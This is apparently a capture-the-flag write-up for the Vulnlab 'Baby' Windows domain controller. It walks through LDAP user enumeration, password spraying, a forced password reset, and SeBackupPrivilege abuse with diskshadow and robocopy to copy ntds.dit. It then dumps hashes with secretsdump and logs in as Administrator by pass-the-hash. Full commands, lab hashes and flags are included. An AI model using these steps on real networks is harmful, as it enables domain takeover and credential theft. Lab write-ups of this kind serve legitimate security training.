


| Machine Name | OS | Difficulty | Date Started | Date Completed |
|---|---|---|---|---|
| Baby | Windows | Easy | 10/12/2024 | 10/12/2024 |
Vulnlab.com
Learning Points :
NTDS.dit file on the domain controller. SeBackupPrivilege is enabled. smbpasswd to change the password of a user in a domain when the password change is required.Attack Path :
rustscan. ldapsearch. Caroline.Robinson had the password, but it needed to be changed. Caroline.Robinson using smbpasswd. SeBackupPrivilege was enabled. SAM and SYSTEM hives to a temp folder using SeBackupPrivilege. impacket-secretsdump. ntds.dit file. Activity Log :
rustscan to identify open ports.guest/null and didn’t find anything useful.5357 and 5985 but couldn’t find anything useful.CrackMapExec as a guest user and failed.kerbrute user enumeration and found only the administrator user.ldapsearch to look at the user descriptions and found a password.Caroline.Robinson user had the password but it had to be changed.smbpasswd to change the password of the user.SeBackupPrivilege is enabled.SAM and SYSTEM hives to the temp folder.impacket-secretsdump to dump the hashes, including the administrator hash (later found out it was the local administrator hash).ntds.dit file.SeBackupPrivilege and saved and downloaded the ntds.dit file.secretsdump.py.Rustscan :
destiny@falcon:~$ rustscan -a 10.10.97.214
Open 10.10.97.214:53
Open 10.10.97.214:88
Open 10.10.97.214:135
Open 10.10.97.214:139
Open 10.10.97.214:389
Open 10.10.97.214:445
Open 10.10.97.214:464
Open 10.10.97.214:636
Open 10.10.97.214:593
Open 10.10.97.214:3269
Open 10.10.97.214:3268
Open 10.10.97.214:3389
Open 10.10.97.214:5357
Open 10.10.97.214:5985
Open 10.10.97.214:9389
Nmap scan :
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-10 10:33:00Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ldapssl?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open globalcatLDAPssl?
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: BABY
| NetBIOS_Domain_Name: BABY
| NetBIOS_Computer_Name: BABYDC
| DNS_Domain_Name: baby.vl
| DNS_Computer_Name: BabyDC.baby.vl
| Product_Version: 10.0.20348
|_ System_Time: 2024-12-10T10:33:21+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2024-07-26T09:03:15
|_Not valid after: 2025-01-25T09:03:15
|_ssl-date: 2024-12-10T10:34:01+00:00; 0s from scanner time.
5357/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2024-12-10T10:33:22
|_ start_date: N/A
Enumerated ports 5357 and 5985 but couldn't find anything useful.
destiny@falcon:~/vpn$ curl http://10.10.97.214:5357
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Service Unavailable</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Service Unavailable</h2>
<hr><p>HTTP Error 503. The service is unavailable.</p>
</BODY></HTML>
destiny@falcon:~/vpn$ curl http://10.10.97.214:5985
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Not Found</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Not Found</h2>
<hr><p>HTTP Error 404. The requested resource is not found.</p>
</BODY></HTML>
Tried RID brute-forcing using Crackmapexec as the guest user but failed:
destiny@falcon:~/vpn$ crackmapexec smb baby.vl -u guest -p '' --rid-brute
SMB baby.vl 445 BABYDC [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB baby.vl 445 BABYDC [-] baby.vl\guest: STATUS_ACCOUNT_DISABLED
Tried an LDAP search but didn't find anything useful in the first attempt.
destiny@falcon:~/vpn$ ldapsearch -H ldaps://baby.vl:636/ -x -s base -b '' "(objectClass=*)" "*" +
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)
Ran Kerbrute user enumeration and found only the administrator user.
destiny@falcon:/usr/share/wordlists$ kerbrute userenum -d baby.vl /usr/share/wordlists/xato-net-10-million-usernames.txt --dc baby.vl
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 12/10/24 - Ronnie Flathers @ropnop
2024/12/10 16:39:21 > Using KDC(s):
2024/12/10 16:39:21 > baby.vl:88
2024/12/10 16:39:50 > [+] VALID USERNAME: administrator@baby.vl
2024/12/10 16:43:00 > [+] VALID USERNAME: Administrator@baby.vl
After researching and reviewing the enumeration part of the Cascade box on Hack The Box, we discovered a tool called winldapsearch that we could use to dump the users without needing credentials by using LDAP.
destiny@falcon:/tmp/windapsearch$ python3 windapsearch.py -d baby.vl --dc-ip 10.10.95.143 --users
[+] No username provided. Will try anonymous bind.
[+] Using Domain Controller at: 10.10.95.143
[+] Getting defaultNamingContext from Root DSE
[+] Found: DC=baby,DC=vl
[+] Attempting bind
[+] ...success! Binded as:
[+] None
[+] Enumerating all AD users
[+] Found 10 users:
cn: Guest
cn: Jacqueline Barnett
userPrincipalName: Jacqueline.Barnett@baby.vl
cn: Ashley Webb
userPrincipalName: Ashley.Webb@baby.vl
cn: Hugh George
userPrincipalName: Hugh.George@baby.vl
cn: Leonard Dyer
userPrincipalName: Leonard.Dyer@baby.vl
cn: Connor Wilkinson
userPrincipalName: Connor.Wilkinson@baby.vl
cn: Joseph Hughes
userPrincipalName: Joseph.Hughes@baby.vl
cn: Kerry Wilson
userPrincipalName: Kerry.Wilson@baby.vl
cn: Teresa Bell
userPrincipalName: Teresa.Bell@baby.vl
cn: Caroline Robinson
userPrincipalName: Caroline.Robinson@baby.vl
Filtered (users.txt) :
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Tried an ASREPRoast attack but did not receive any user hashes.
destiny@falcon:~/vulnlab.com/Baby-W$ impacket-GetNPUsers baby.vl/ -usersfile users.txt -dc-ip 10.10.95.143 -format hashcat -outputfile asreproast_hashes.txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Jacqueline.Barnett doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ashley.Webb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Hugh.George doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Leonard.Dyer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Connor.Wilkinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Joseph.Hughes doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kerry.Wilson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Teresa.Bell doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Caroline.Robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
Found in a Medium article that we can also use
ldapsearchto perform user enumeration.
destiny@falcon:~/vulnlab.com/Baby-W$ ldapsearch -x -H ldap://10.10.95.143 -D '' -w '' -b "DC=baby,DC=vl" | grep sAMAccountName | awk -F: '{ print $2 }' | awk '{ gsub(/ /,""); print }'
Guest
DomainComputers
CertPublishers
DomainUsers
DomainGuests
GroupPolicyCreatorOwners
RASandIASServers
AllowedRODCPasswordReplicationGroup
DeniedRODCPasswordReplicationGroup
EnterpriseRead-onlyDomainControllers
CloneableDomainControllers
ProtectedUsers
DnsAdmins
DnsUpdateProxy
dev
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
it
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
While reviewing the user descriptions, we found a password: BabyStart123!.
destiny@falcon:~/vulnlab.com/Baby-W$ ldapsearch -x -H ldap://10.10.95.143 -D '' -w '' -b "DC=baby,DC=vl" | grep description
description: Built-in account for guest access to the computer/domain
description: All workstations and servers joined to the domain
description: Members of this group are permitted to publish certificates to th
description: All domain users
description: All domain guests
description: Members in this group can modify group policy for the domain
description: Servers in this group can access remote access properties of user
description: Members in this group can have their passwords replicated to all
description: Members in this group cannot have their passwords replicated to a
description: Members of this group are Read-Only Domain Controllers in the ent
description: Members of this group that are domain controllers may be cloned.
description: Members of this group are afforded additional protections against
description: DNS Administrators Group
description: DNS clients who are permitted to perform dynamic updates on behal
description: Set initial password to BabyStart123!
We performed a password spray attack using the user list we had and the password we just discovered with CrackMapExec. The user Caroline.Robinson received the response STATUS_PASSWORD_MUST_CHANGE.
We used the Impacket smbpasswd tool to change the password of the user Caroline.Robinson to Password123##.
destiny@falcon:~/vulnlab.com/Baby-W$ smbpasswd -r 10.10.95.143 -U Caroline.Robinson
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Caroline.Robinson
We confirmed that our password was changed using CrackMapExec.
destiny@falcon:~/vulnlab.com/Baby-W$ crackmapexec smb baby.vl -u Caroline.Robinson -p 'Password123##'
SMB baby.vl 445 BABYDC [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB baby.vl 445 BABYDC [+] baby.vl\Caroline.Robinson:Password123##
Enumerated the available SMB shares for the user.
We also checked if we could use the WinRM protocol to log in as this user, as we remembered the port was open from the Nmap scan, and confirmed we had access.
destiny@falcon:~/vulnlab.com/Baby-W$ crackmapexec winrm baby.vl -u Caroline.Robinson -p 'Password123##'
SMB baby.vl 5985 BABYDC [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
HTTP baby.vl 5985 BABYDC [*] http://baby.vl:5985/wsman
WINRM baby.vl 5985 BABYDC [+] baby.vl\Caroline.Robinson:Password123## (Pwn3d!)
We logged into the machine using the credentials and obtained the user flag.
destiny@falcon:~/vulnlab.com/Baby-W$ evil-winrm -i baby.vl -u 'Caroline.Robinson' -p 'Password123##'
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> ls
Directory: C:\Users\Caroline.Robinson\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 6/21/2016 3:36 PM 527 EC2 Feedback.website
-a---- 6/21/2016 3:36 PM 554 EC2 Microsoft Windows Guide.website
-a---- 11/21/2021 3:24 PM 36 user.txt
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> type user.txt
VL{b2c6150b85125d32f4b253df9540d898}
After checking the available privileges, we were able to see that SeBackupPrivilege is enabled.
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeBackupPrivilege Back up files and directories Enabled
SeRestorePrivilege Restore files and directories Enabled
SeShutdownPrivilege Shut down the system Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
As per this note on abusing SeBackupPrivilege, we saved the SAM and SYSTEM hives to a temporary folder.
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> mkdir C:\temp
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> reg save hklm\sam C:\temp\sam.hive
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> reg save hklm\system C:\temp\system.hive
Downloaded the files to Falcon and used impacket-secretsdump to dump the hashes, including the Administrator hash.
destiny@falcon:~/vulnlab.com/Baby-W$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
Used the admin hash to perform a pass-the-hash attack with Evil-WinRM, but was unable to log in.
In a Windows domain environment, domain administrator (Domain Admin) password hashes are stored in the NTDS.dit file
We didn't have permission to copy the NTDS.dit file as we did with the previous files.
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> copy C:\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
Access to the path 'C:\Windows\NTDS\NTDS.dit' is denied.
At line:1 char:1
+ copy C:\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : PermissionDenied: (C:\Windows\NTDS\NTDS.dit:FileInfo) [Copy-Item], UnauthorizedAccessException
+ FullyQualifiedErrorId : CopyFileInfoItemUnauthorizedAccessError,Microsoft.PowerShell.Commands.CopyItemCommand
ntds.dit File Using SeBackupPrivilege AbuseCreate the Diskshadow commands with the following content:
set context persistent nowriters
add volume c: alias persecure
create
expose %persecure% z:
Convert the file to DOS format:
destiny@falcon:~/vulnlab.com/Baby-W$ unix2dos diskshadow.dsh
unix2dos: converting file diskshadow.dsh to DOS format...
Upload the .dsh file to the victim machine:
*Evil-WinRM* PS C:\Windows\temp> upload diskshadow.dsh
Info: Uploading /home/destiny/vulnlab.com/Baby-W/diskshadow.dsh to C:\Windows\temp\diskshadow.dsh
Data: 128 bytes of 128 bytes copied
Info: Upload successful!
Execute the diskshadow command on the victim machine to process the .dsh file:
*Evil-WinRM* PS C:\Windows\temp> diskshadow /s diskshadow.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer: BABYDC, 12/10/2024 4:42:47 PM
-> set context persistent nowriters
-> add volume c: alias persecure
-> create
Alias persecure for shadow ID {00c44bca-56f0-4e40-a5d0-cc8911e527fd} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {9d386d70-5ce4-4aa9-ba4f-02d81d01c7b5} set as environment variable.
Querying all shadow copies with the shadow copy set ID {9d386d70-5ce4-4aa9-ba4f-02d81d01c7b5}
* Shadow copy ID = {00c44bca-56f0-4e40-a5d0-cc8911e527fd} %persecure%
- Shadow copy set: {9d386d70-5ce4-4aa9-ba4f-02d81d01c7b5} %VSS_SHADOW_SET%
- Original count of shadow copies = 1
- Original volume name: \\?\Volume{1b77e212-0000-0000-0000-100000000000}\ [C:\]
- Creation time: 12/10/2024 4:42:48 PM
- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
- Originating machine: BabyDC.baby.vl
- Service machine: BabyDC.baby.vl
- Not exposed
- Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
- Attributes: No_Auto_Release Persistent No_Writers Differential
Number of shadow copies listed: 1
-> expose %persecure% z:
-> %persecure% = {00c44bca-56f0-4e40-a5d0-cc8911e527fd}
The shadow copy was successfully exposed as z:\.
->
Use the robocopy command in backup mode (/b) to copy the ntds.dit file from the exposed volume:
*Evil-WinRM* PS C:\Windows\temp> robocopy /b z:\windows\ntds . ntds.dit
.
.
1.9%
100%
------------------------------------------------------------------------------
Total Copied Skipped Mismatch FAILED Extras
Dirs : 1 0 1 0 0 0
Files : 1 1 0 0 0 0
Bytes : 16.00 m 16.00 m 0 0 0 0
Times : 0:00:00 0:00:00 0:00:00 0:00:00
Speed : 97,541,953 Bytes/sec.
Speed : 5,581.396 MegaBytes/min.
Ended : Tuesday, December 10, 2024 4:44:10 PM
Verify the presence of the copied ntds.dit file in the C:\Windows\temp directory and downloaded the file
*Evil-WinRM* PS C:\Windows\temp> ls
Directory: C:\Windows\temp
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 12/10/2024 4:42 PM 624 2024-12-10_16-42-48_BABYDC.cab
-a---- 12/10/2024 4:42 PM 96 diskshadow.dsh
-a---- 12/10/2024 4:16 PM 16777216 ntds.dit
-a---- 12/10/2024 4:17 PM 102 silconfig.log
*Evil-WinRM* PS C:\Windows\temp> download ntds.dit
Info: Downloading C:\Windows\temp\ntds.dit to ntds.dit
Info: Download successful!
Finally we used Impacket's secretsdump tool to extract credentials from the ntds.dit file. We had the SYSTEM file from the previous download
destiny@falcon:~/vulnlab.com/Baby-W$ impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies [*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:8cbfd74084914e396b1c6fd420d3fe5e:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
Used Evil-WinRM to connect as Administrator using the extracted NTLM hash and get the root flag:
destiny@falcon:~/vulnlab.com/Baby-W$ evil-winrm -i 10.10.70.114 -u "administrator" -H "ee4457ae59f1e3fbd764e33d9cef123d"
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
VL{9000cab96bcf62e99073ff5f6653ce90}